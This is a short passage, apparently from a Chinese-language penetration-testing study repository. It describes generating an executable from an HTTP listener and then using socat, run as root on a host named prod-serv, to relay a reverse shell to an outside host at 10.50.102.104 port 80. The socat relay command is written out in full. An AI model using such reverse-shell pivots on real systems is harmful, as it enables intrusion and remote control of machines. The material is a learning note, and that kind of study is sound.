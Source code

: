 ![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1661333299286.jpg)

使用http-n监听生成一个exe文件

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1661333364837.jpg)

在linux机器用socat做一个rev shell转发,这里注意转到本地的80端口，也就是上面http监听器的端口
```
[root@prod-serv tmp]# ./socat-max TCP4-LISTEN:15123,FORK  TCP4:10.50.102.104:80
```
